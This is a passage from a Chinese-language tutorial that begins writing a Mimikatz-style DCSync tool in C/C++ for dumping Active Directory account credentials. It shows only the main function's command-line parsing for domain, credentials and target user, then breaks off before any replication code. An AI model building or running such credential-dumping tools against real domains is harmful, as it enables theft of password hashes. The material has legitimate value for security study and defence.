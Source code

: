 # 编程实现

下面笔者参考 Mimikatz 的代码，通过 C/C++ 实现一个 DCSync 工具的编写。由于篇幅限制仅描述关键代码部分，相关头文件定义以及各个函数的定义位置请读者自行实现。

## 编写主函数

```c++
int wmain(int argc, wchar_t* argv[])
{
    LPCWSTR DomainName = NULL;
    LPCWSTR DomainController = NULL;
    LPCWSTR UserName = NULL;     // Target user to dump, all domain users and computer accounts by default
    LPCWSTR AuthUser = NULL;
    LPCWSTR AuthPass = NULL;
    RPC_BINDING_HANDLE hBinding;

    while ((argc > 1) && (argv[1][0] == '-'))
    {
        switch (argv[1][1])
        {
        case 'h':
            PrintUsage();
            return 0;
        case 'd':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                DomainName = (LPCWSTR)argv[1];
                wprintf(L"[+] Got domain name: %s.\n", DomainName);
            }
            break;
        case 'u':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                AuthUser = (LPCWSTR)argv[1];
            }
            break;
        
        case 'p':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                AuthPass = (LPCWSTR)argv[1];
            }
            break;
        
        case 't':
            ++argv;
            --argc;
            if (argc > 1 && argv[1][0] != '-')
            {
                UserName = (LPCWSTR)argv[1];
            }
            break;
        }

        ++argv;
```